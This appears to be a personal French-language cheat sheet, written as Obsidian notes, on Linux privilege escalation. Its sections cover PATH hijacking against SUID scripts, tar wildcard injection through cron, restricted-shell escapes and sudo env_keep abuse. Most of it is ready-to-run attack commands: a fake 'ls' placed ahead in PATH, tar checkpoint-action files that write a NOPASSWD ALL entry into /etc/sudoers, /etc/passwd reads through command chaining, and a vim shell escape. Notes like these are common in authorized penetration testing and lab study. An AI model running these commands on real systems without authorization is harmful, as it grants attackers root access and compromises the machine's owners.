 
- [ ] [[#PATH Abuse]]
- [ ] [[#Wildcard abuse]]
- [ ] [[#Restricted Shells]]
- [ ] [[#Env_keep (sudo)]]

# PATH Abuse

> [!TIP]
> Si un script lancé avec SUID ou SGID et contient une commande non appelée par son chemin absolu (ls au lieu de /bin/ls par ex) alors possible d'hijacker la commande en créant un script nommé ls et en le mettant dans le path

```shell-session
echo $PATH
```

Verifier si writable path

En fonction du user

```sh
find / -perm -u+w -user websvc 2>/dev/null | grep -vE "proc|run|sys"
```

En fonction du groupe

```sh
find / -perm -g+w -group websvc 2>/dev/null | grep -vE "proc|run|sys"
```

Droits Other

```sh
find / -perm -o+w 2>/dev/null | grep -vE "proc|run|sys"
```

Exploit

```
echo "!/bin/bash
/bin/bash" > /tmp/ls
```

```bash
PATH=/tmp/:$PATH
```

```shell-session
export PATH
```



---
# Wildcard abuse

> [!TIP]
> *, ?, [], ~, - dans un cronjob avec la commande tar

ajout d'un user au groupe sudoer

```bash
echo 'echo "<user> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

---
# Restricted Shells

Qq restricted shells
- RBASH
- RKSH
- RZSH

[[#Command Injection / Chaining]]
[[#Command Substitution]]
[[#Bypass ls restriction]]
[[#Environment variable]]
[[#VIM Escape]]

https://0xffsec.com/handbook/shells/restricted-shells/

## Command Injection / Chaining

```bash
ls -l `cat /etc/passwd`
ls -l ; cat /etc/passwd
ls -l | cat /etc/passwd
```

## Command Substitution

```
ls -l `cat /etc/passwd`
```

```
echo $(cat /etc/passwd)
```

## Bypass ls restriction

```
echo /path/to/enum/*
```

## Environment variable

Check si un repertoire est specifié en variable d'environment afin de restreindre les commandes executables -> Modifier la variable d'environnement (Path / Shell par ex)

```
env
```

Afficher variable Shell

```
echo $0
```

Afficher variable PATH

```
echo $PATH
```

## VIM Escape

```sh
:set shell=/bin/bash
```

```sh
:shell
```


---

# Env_keep (sudo)

> [!TIP]
> Permet de charger la variable d'environnement définie avant l'exécution du programme appelé par sudo


check si présence du env_keep= avec sudo -l

```
sudo -l
```

variables intéressantes:

BASH_ENV -> permet de charger un script bash
LD_PRELOAD  -> permet de charger une DLL -> [[8. Linux Internals#LD_PRELOAD (Sudo)]]


